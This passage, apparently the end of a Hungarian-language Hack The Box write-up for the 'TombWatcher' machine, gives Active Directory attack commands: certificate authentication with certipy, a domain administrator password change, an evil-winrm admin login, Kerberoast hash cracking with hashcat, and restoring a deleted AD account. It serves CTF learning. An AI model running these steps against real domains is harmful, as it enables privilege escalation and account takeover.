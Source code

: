 ```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
```

- Jelszócsere domain adminra:
```
change_password administrator NoSecHere
```

---

## Root shell & root.txt

```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere
```

- **Root flag:** C:\Users\Administrator\Desktop\root.txt

---

# Jegyzet / Casual tapasztalatok

- A kerberoast chain után jól jött, hogy mindenhol szinte instant csoport abuse megy
- A certipy verziók random szoptattak – classic chain csak pip install certipy==1.2.0 után jött ki
- Az AD objektum recovery és enable jó workflow volt, sok CTF-en nincs ilyen
- **ADCS UPN chain**: egy “szar” sablonból is lehet full admin, ha ügyesen kombinálod a policy OID-t!
- Root előtt, ha újra kell indítani HTB gépet, minden hasht/jelszót gyorsan jegyezz fel!

---

# Lessons learned

- AD privilege chain: ha az első foothold után végig tudsz menni a csoport-abuse-okon, szinte bármelyik userből lehet DA
- Kerberoast-tól ADCS-ig, minden láncszem kihozható open source toolokkal
- Pip-es certipy, gMSADumper, bloodyAD – mind gold
- Próbáld végig több environmentből is, ha szopat a workflow!
- HTB-s gépnél **a chain a lényeg, nem csak az 1-1 exploit!**

---

# Cheat Sheet

## Kerberoast hash törése
```
hashcat -m 13100 hashfile /usr/share/wordlists/rockyou.txt
```

## AD object restore
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
Restore-ADObject -Identity <GUID>
Enable-ADAccount -Identity cert_admin
```
